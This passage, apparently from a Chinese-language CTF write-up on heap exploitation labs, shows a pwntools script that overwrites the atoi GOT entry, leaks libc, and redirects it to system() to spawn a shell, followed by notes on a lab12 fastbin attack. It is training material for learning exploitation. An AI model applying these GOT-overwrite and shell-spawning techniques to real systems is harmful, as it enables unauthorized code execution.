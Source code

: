 ```python
p = p64(0)*2 + p64(0x40) + p64(elf.got['atoi'])
change(0, 0x20, p)

# method1: call magic
#change(0, 0x8, p64(elf.symbols['magic']))

# method2： get shell
show()
r.recvuntil('0 : ')
atoi_addr = u64(r.recvuntil('\xff\x7f').ljust(8, '\x00'))
atoi_off = 0x36e90
libc_addr = atoi_addr - atoi_off
system_off = 0x453a0
system_addr = libc_addr + system_off
change(0, 0x8, p64(system_addr))
r.recvuntil(":")
r.sendline('/bin/sh')

r.interactive()
```

> 题外话，一开始我修改了下源码![image-20220917175900746](/assets/img/2022/image-20220917175900746.png)
>
> 导致调试一直通不过
>
> ![image-20220917175958614](/assets/img/2022/image-20220917175958614.png)
>
> 就永远卡在这里了。。
>
> 不知道是啥原因，至今没有解决
>
> 倒是改atoi_got换成了改exit_got可以
>
> 反正改atoi_got不知道为啥不行

# lab12

> 考点：fastbin attack

漏洞点：

![image-20220917192249458](/assets/img/2022/image-20220917192249458.png)



改puts的got，这题改free的got会有点问题，调试时发现的

![image-20220917220134747](/assets/img/2022/image-20220917220134747.png)

还有，如果你拿pwndbg的find_fake_fast命令找的话，是找不到的，它代码写的有问题（盲猜是因为它做了8字节校验？）但是其实做fastbin的fake chunk只需要四字节满足要求就可以

![image-20220917220236960](/assets/img/2022/image-20220917220236960.png)
